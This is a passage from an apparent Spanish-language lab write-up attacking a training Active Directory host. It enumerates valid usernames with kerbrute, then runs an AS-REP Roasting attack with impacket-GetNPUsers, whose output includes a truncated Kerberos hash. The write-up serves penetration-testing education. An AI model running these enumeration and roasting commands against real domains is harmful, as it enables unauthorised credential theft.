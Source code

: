 Si recuerdas, vimos en la página web que hay algunos nombres en la sección **About Us**.

Pues, como ya sabemos el formato de usuarios, vamos a copiar esos nombres para comprobar si son usuarios existentes:
```bash
nano users.txt
hsmith
fsmith
scoins
btaylor
hbear
sdriver
skerb
```

Ahora, usemos el mismo comando que usamos con **kerbrute**:
```bash
./kerbrute_linux_amd64 userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/16/24 - Ronnie Flathers @ropnop

2024/10/16 13:38:14 >  Using KDC(s):
2024/10/16 13:38:14 >   10.10.10.175:88

2024/10/16 13:38:14 >  [+] VALID USERNAME:       hsmith@EGOTISTICAL-BANK.LOCAL
2024/10/16 13:38:14 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
2024/10/16 13:38:14 >  Done! Tested 7 usernames (2 valid) in 0.086 seconds
```
Tenemos otro usuario llamado **fsmith**.

Una vez que tengamos usuarios válidos, podemos probar el **AS-REP Roasting Attack** para ver si podemos obtener un **TGT**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="ASREP">Aplicando AS-REP Roasting Attack</h2>

Esa misma lista de usuarios la podemos ocupar para aplicar este ataque.

Para hacerlo, necesitaremos la herramienta **GetNPUsers de impacket**.

Le indicaremos que no tenemos contraseñas, que usé nuestra lista de usuarios y el dominio:
```bash
impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:5407441c36e1fd63c2ef9aa177a0d037$1f69349d02...
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
Muy bien, obtuvimos el **TGT** del usuario **fsmith**.
